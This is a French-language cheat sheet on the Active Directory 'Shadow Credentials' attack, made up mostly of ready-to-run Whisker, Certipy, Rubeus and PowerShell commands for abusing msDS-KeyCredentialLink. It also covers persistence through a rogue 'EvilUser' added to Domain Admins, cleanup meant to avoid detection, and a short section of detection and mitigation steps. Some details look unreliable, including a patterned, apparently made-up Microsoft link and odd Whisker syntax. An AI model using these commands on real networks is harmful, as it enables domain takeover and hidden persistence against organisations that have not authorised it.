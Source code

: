 ```yaml
---
title: Shadow Credentials
date: "2025-07-15"
draft: false
---
```


# 👤 Shadow Credentials - Cheat Sheet

## 🎯 Vue d'ensemble
Les Shadow Credentials sont une technique d'attaque Active Directory qui permet d'ajouter des clés publiques aux attributs msDS-KeyCredentialLink d'un objet AD pour obtenir des privilèges élevés.

---

## 🔍 Détection et Énumération

### Identification des Cibles
```powershell
# Recherche d'objets avec des Shadow Credentials
# Pourquoi : Identifier les objets AD qui ont des Shadow Credentials
Get-ADObject -Filter {msDS-KeyCredentialLink -like "*"} -Properties msDS-KeyCredentialLink,SamAccountName

# Recherche avec LDAP
# Pourquoi : Utiliser LDAP pour une recherche directe
ldapsearch -H ldap://DC_IP -D "DOMAIN\USER" -w PASSWORD -b "DC=DOMAIN,DC=LOCAL" "(&(objectClass=user)(msDS-KeyCredentialLink=*))" sAMAccountName msDS-KeyCredentialLink

# Recherche avec PowerView
# Pourquoi : Utiliser PowerView pour une énumération avancée
Get-DomainUser -Properties msDS-KeyCredentialLink | Where-Object {$_.msDS-KeyCredentialLink}
```

### Énumération des Permissions
```powershell
# Vérification des permissions sur les objets
# Pourquoi : Identifier qui peut modifier les attributs msDS-KeyCredentialLink
Get-ACL -Path "AD:CN=TARGET_USER,CN=Users,DC=domain,DC=local" | Format-List

# Recherche des groupes avec permissions
# Pourquoi : Identifier les groupes qui peuvent ajouter des Shadow Credentials
Get-ADGroup -Filter {Name -like "*Cert*"} -Properties Members
```

---

## 🛠️ Outils d'Exploitation

### Whisker
```powershell
# Installation de Whisker
# Pourquoi : Outil spécialisé pour les Shadow Credentials
# Télécharger depuis: https://github.com/eladshamir/Whisker

# Ajout de Shadow Credentials
# Pourquoi : Ajouter des Shadow Credentials à un objet AD
Whisker.exe add /target:TARGET_USER /domain:DOMAIN.LOCAL /dc:DC_IP /path:C:\path\to\cert.pfx

# Suppression de Shadow Credentials
# Pourquoi : Supprimer les Shadow Credentials ajoutés
Whisker.exe remove /target:TARGET_USER /domain:DOMAIN.LOCAL /dc:DC_IP /path:C:\path\to\cert.pfx
```

### Certipy
```bash
# Installation de Certipy
# Pourquoi : Outil pour l'exploitation des certificats AD
pip install certipy-ad

# Ajout de Shadow Credentials avec Certipy
# Pourquoi : Utiliser Certipy pour ajouter des Shadow Credentials
certipy-ad shadow auto -u USER@DOMAIN.LOCAL -p PASSWORD -target TARGET_USER -dc-ip DC_IP

# Authentification avec Shadow Credentials
# Pourquoi : S'authentifier avec les Shadow Credentials créés
certipy-ad auth -pfx TARGET_USER.pfx -dc-ip DC_IP
```

### PowerShell
```powershell
# Script PowerShell pour Shadow Credentials
# Pourquoi : Utiliser PowerShell pour l'exploitation des Shadow Credentials
# Nécessite des modules spécifiques pour la manipulation des certificats

# Génération de certificat
# Pourquoi : Générer un certificat pour les Shadow Credentials
$cert = New-SelfSignedCertificate -Subject "CN=ShadowCred" -KeyAlgorithm RSA -KeyLength 2048

# Export du certificat
# Pourquoi : Exporter le certificat pour l'utilisation
Export-Certificate -Cert $cert -FilePath "shadow_cert.cer"
```

---

## 🎯 Techniques d'Exploitation

### Étape 1: Génération des Certificats
```bash
# Génération avec OpenSSL
# Pourquoi : Générer un certificat avec OpenSSL
openssl req -newkey rsa:2048 -keyout shadow.key -out shadow.csr -subj "/CN=ShadowCred"
openssl x509 -req -in shadow.csr -signkey shadow.key -out shadow.crt

# Génération avec Certipy
# Pourquoi : Utiliser Certipy pour la génération automatique
certipy-ad shadow auto -u USER@DOMAIN.LOCAL -p PASSWORD -target TARGET_USER -dc-ip DC_IP
```

### Étape 2: Ajout des Shadow Credentials
```powershell
# Ajout avec Whisker
# Pourquoi : Ajouter les Shadow Credentials à l'objet AD
Whisker.exe add /target:TARGET_USER /domain:DOMAIN.LOCAL /dc:DC_IP /path:C:\path\to\cert.pfx

# Ajout avec Certipy
# Pourquoi : Alternative avec Certipy
certipy-ad shadow auto -u USER@DOMAIN.LOCAL -p PASSWORD -target TARGET_USER -dc-ip DC_IP
```

### Étape 3: Authentification
```bash
# Authentification avec le certificat
# Pourquoi : S'authentifier avec les Shadow Credentials
certipy-ad auth -pfx TARGET_USER.pfx -dc-ip DC_IP

# Authentification avec Rubeus
# Pourquoi : Utiliser Rubeus pour l'authentification
Rubeus.exe asktgt /user:TARGET_USER /certificate:C:\path\to\cert.pfx /ptt
```

---

## 🔧 Post-Exploitation

### Utilisation des Privilèges
```powershell
# Vérification des privilèges obtenus
# Pourquoi : Vérifier les privilèges obtenus avec les Shadow Credentials
whoami /priv
whoami /groups

# Énumération des ressources accessibles
# Pourquoi : Identifier les ressources accessibles avec les nouveaux privilèges
Get-ADComputer -Filter * | ForEach-Object { Test-Path "\\$($_.Name)\C$" }
```

### Persistance
```powershell
# Création de comptes persistants
# Pourquoi : Maintenir l'accès après l'exploitation
New-ADUser -Name "EvilUser" -AccountPassword (ConvertTo-SecureString "EvilPass123!" -AsPlainText -Force) -Enabled $true
Add-ADGroupMember -Identity "DOMAIN ADMINS" -Members "EvilUser"

# Modification des ACLs
# Pourquoi : Modifier les permissions pour maintenir l'accès
Set-ADObject -Identity "CN=EvilUser,CN=Users,DC=domain,DC=local" -Add @{msDS-AllowedToDelegateTo="krbtgt/DOMAIN.LOCAL"}
```

### Nettoyage
```powershell
# Suppression des Shadow Credentials
# Pourquoi : Supprimer les Shadow Credentials pour éviter la détection
Whisker.exe remove /target:TARGET_USER /domain:DOMAIN.LOCAL /dc:DC_IP /path:C:\path\to\cert.pfx

# Nettoyage des certificats
# Pourquoi : Supprimer les fichiers de certificats
Remove-Item "shadow_cert.cer"
Remove-Item "shadow.key"
Remove-Item "shadow.csr"
```

---

## 🛡️ Contre-Mesures

### Détection
```powershell
# Surveillance des Shadow Credentials
# Pourquoi : Détecter les objets avec des Shadow Credentials
Get-ADObject -Filter {msDS-KeyCredentialLink -like "*"} -Properties msDS-KeyCredentialLink,SamAccountName | Export-Csv -Path "shadow_credentials.csv"

# Surveillance des modifications d'attributs
# Pourquoi : Détecter les modifications de l'attribut msDS-KeyCredentialLink
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=5136} | Where-Object {$_.Message -like "*msDS-KeyCredentialLink*"}
```

### Mitigation
```powershell
# Suppression des Shadow Credentials
# Pourquoi : Supprimer les Shadow Credentials dangereux
Set-ADObject -Identity "CN=TARGET_USER,CN=Users,DC=domain,DC=local" -Clear "msDS-KeyCredentialLink"

# Restriction des permissions
# Pourquoi : Restreindre les permissions sur les attributs sensibles
# Utiliser des ACLs pour limiter l'accès à msDS-KeyCredentialLink
```

### Configuration Sécurisée
```powershell
# Politiques de sécurité pour les certificats
# Pourquoi : Configurer des politiques pour limiter l'utilisation des certificats
# GPO: Computer Configuration > Windows Settings > Security Settings > Public Key Policies
# "Certificate Services Client - Auto-Enrollment" = Disabled
```

---

## 📚 Ressources

- **Whisker GitHub** : https://github.com/eladshamir/Whisker
- **Certipy GitHub** : https://github.com/ly4k/Certipy
- **HackTricks Shadow Credentials** : https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/shadow-credentials
- **Microsoft Shadow Credentials** : https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/2c2c4c8c-0c8c-4c8c-8c8c-8c8c8c8c8c8c

---

_Dernière mise à jour : 15 juillet 2025_

